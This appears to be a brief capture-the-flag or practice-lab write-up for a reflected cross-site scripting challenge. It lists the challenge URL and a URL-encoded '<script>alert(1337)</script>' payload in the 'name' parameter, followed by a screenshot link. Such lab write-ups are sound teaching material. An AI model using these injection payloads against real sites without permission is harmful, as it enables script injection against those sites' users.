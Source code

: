 chall Url: http://www.zixem.altervista.org/XSS/1.php?name=
Payload: http://www.zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1337)%3C/script%3E
![](https://user-images.githubusercontent.com/25671488/61375350-5aab3b00-a8bc-11e9-9d08-f5d2398d06dc.png)
